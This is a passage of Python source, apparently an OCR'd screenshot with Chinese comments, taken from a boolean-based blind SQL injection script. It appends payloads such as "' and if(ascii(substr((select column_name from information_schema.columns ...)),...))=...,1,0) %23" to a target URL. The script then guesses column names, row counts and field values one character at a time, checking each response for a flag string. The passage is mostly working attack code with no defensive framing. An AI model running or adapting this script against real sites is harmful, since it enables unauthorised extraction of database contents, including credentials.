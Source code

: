 ```python
	# 保存字段名的临时变量
	column = ""
	# a表示当前获取字段的索引
	for a in range(0, DBColumnCount):
		print("[-]正在获取第{0}个字段名".format(a+1))
		# 先获取字段的长度
		for columnLen in range(99):
			payload = "' and if((select length(column_name) from information_schema.columns where table_schema='{0}' and table_name='{1}' limit {2},1)={3},1,0) %23"
			targetUrl = url + payload
			res = conn.get(targetUrl.format(dbname, dbtable, a, columnLen))
			if flag in res.content.decode("utf-8"):
				break
		# b表示当前字段名猜解的位置
		for b in range(1, columnLen+1):
			payload = "' and if(ascii(substr((select column_name from information_schema.columns where table_schema='{0}' and table_name='{1}' limit {2},1),{3},1))={4},1,0) %23"
			targetUrl = url + payload
			# c表示33~127位ASCII中可显示字符
			for c in range(33, 128):
				res = conn.get(targetUrl.format(dbname, dbtable, a, b, c))
				if flag in res.content.decode("utf-8"):
					column += chr(c)
					print(column)
					break
		# 把获取到的名加入到DBColumns
		DBColumns.append(column)
		#清空column，用来继续获取下一个字段名
		column = ""


# 获取表数据函数
def GetDBData(url, dbtable, dbcolumn):
	global DBData
	# 先获取字段数据数量
	DBDataCount = 0
	print("[-]开始获取{0}表{1}字段的数据数量".format(dbtable, dbcolumn))
	for DBDataCount in range(99):
		payload = "'and if ((select count({0}) from {1})={2},1,0)  %23"
		targetUrl = url + payload
		res = conn.get(targetUrl.format(dbcolumn, dbtable, DBDataCount))
		if flag in res.content.decode("utf-8"):
			print("[-]{0}表{1}字段的数据数量为:{2}".format(dbtable, dbcolumn, DBDataCount))
			break
	for a in range(0, DBDataCount):
		print("[-]正在获取{0}的第{1}个数据".format(dbcolumn, a+1))
		#先获取这个数据的长度
		dataLen = 0
		for dataLen in range(99):
			payload = "'and if ((select length({0}) from {1} limit {2},1)={3},1,0)  %23"
			targetUrl = url + payload
			res = conn.get(targetUrl.format(dbcolumn, dbtable, a, dataLen))
			if flag in res.content.decode("utf-8"):
				print("[-]第{0}个数据长度为:{1}".format(a+1, dataLen))
				break
		#临时存放数据内容变量
		data = ""
		#开始获取数据的具体内容
		#b表示当前数据内容猜解的位置
		for b in range(1, dataLen+1):
			for c in range(33, 128):
				payload = "'and if (ascii(substr((select {0} from {1} limit {2},1),{3},1))={4},1,0)  %23"
```